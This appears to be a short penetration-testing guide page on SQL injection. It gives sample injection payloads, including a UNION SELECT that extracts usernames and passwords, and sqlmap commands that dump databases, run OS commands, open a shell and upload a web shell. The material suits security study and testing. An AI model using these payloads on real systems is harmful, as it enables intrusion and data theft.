 ```yaml
---
title: 💉 SQL Injection
description: SQL Injection (SQLi) is a code injection technique that exploits a security vulnerability in an application's software by manipulating SQL queries.
slug: guide/sqli
head:
  - tag: title
    content: SQL Injection
---
```



SQL Injection (SQLi) is a code injection technique that exploits a security vulnerability in an application's software by manipulating SQL queries.

This can allow attackers to view, modify, or delete data in the database.

It is one of the most common web application vulnerabilities and can be used to bypass authentication, retrieve sensitive data, and execute administrative operations on the database.

```txt
' OR 1=1 --
" OR 1=1 UNION SELECT username, password FROM users --
```

<LinkCard
  title="PortSwigger SQL Injection Cheat Sheet"
  href="https://portswigger.net/web-security/sql-injection/cheat-sheet"
  target="_blank"
/>

## sqlmap

sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities.

It is written in Python and supports a wide range of databases, including MySQL, PostgreSQL, Oracle, Microsoft SQL Server, and SQLite.

```bash
# Get database information
sqlmap -u "http://example.com/vuln.php?id=1" --dbs

# Get all data from a specific table
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name --dump

# Get all data from all tables
sqlmap -u "http://example.com/vuln.php?id=1" --dump

# Get all columns from a specific table
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name --columns

# Get all data from a specific column
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name -C column_name --dump

# Execute arbitrary SQL queries
sqlmap -u "http://example.com/vuln.php?id=1" --sql-query "SELECT * FROM users"

# Execute arbitrary commands on the server
sqlmap -u "http://example.com/vuln.php?id=1" --os-cmd "whoami"

# Get a reverse shell
sqlmap -u "http://example.com/vuln.php?id=1" --os-shell

# Upload a file to the server
sqlmap -u "http://example.com/vuln.php?id=1" --file-write /path/to/file --file-dest /var/www/html/shell.php
```

<LinkCard title="sqlmap" href="https://sqlmap.org/" target="_blank" />
